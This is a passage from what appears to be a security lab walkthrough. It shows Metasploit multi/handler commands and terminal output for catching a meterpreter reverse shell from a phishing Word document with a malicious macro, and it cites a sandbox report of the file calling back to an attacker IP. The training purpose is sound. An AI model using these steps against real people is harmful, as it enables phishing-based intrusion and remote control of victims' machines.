 You already expect this file to connect to the specified IP address and port. If you would like to check its behaviour in a sandbox, you can check the [VirusTotal report](https://www.virustotal.com/gui/file/ab3f9303460c590c452f0c259a35d50a7a2e7c52a81d4e5a42bb98b365d8ab9b/behavior) for a file that we created and uploaded. In this case, it attempts to connect to `10.9.18.120`.

![](https://cdn-images-1.medium.com/max/800/0*d6bgc-nbFic5NlCB.png)

### Listening for Incoming Connections

We again will use the Metasploit Framework, but this time to listen for incoming connections when a target users opens our phishing Word document. This requires the following commands:

*   Open a new terminal window and run `msfconsole` to start the Metasploit Framework
*   `use multi/handler` to handle incoming connections
*   `set payload windows/meterpreter/reverse_tcp` to ensure that our payload works with the payload used when creating the malicious macro
*   `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
*   `set LPORT 8888` specifies the port number you are going to listen on and should be the same as the one used when creating the document
*   `show options` to confirm the values of your options
*   `exploit` starts listening for incoming connections to establish a reverse shell

AttackBox Terminal

root@AttackBox:~\# msfconsole   
\[...\]  
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler  
\[\*\] Using configured payload generic/shell\_reverse\_tcp  
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse\_tcp  
payload => windows/meterpreter/reverse\_tcp  
msf6 exploit(multi/handler) > set LHOST CONNECTION\_IP  
LHOST => CONNECTION\_IP  
msf6 exploit(multi/handler) > set LPORT 8888  
LPORT => 8888  
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description  
   ----  ---------------  --------  -----------  
  

Payload options (windows/meterpreter/reverse\_tcp):

   Name      Current Setting  Required  Description  
   ----      ---------------  --------  -----------  
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)  
   LHOST     CONNECTION\_IP    yes       The listen address (an interface may be specified)  
   LPORT     8888             yes       The listen port  
  

Exploit target:

   Id  Name  
   --  ----  
   0   Wildcard Target
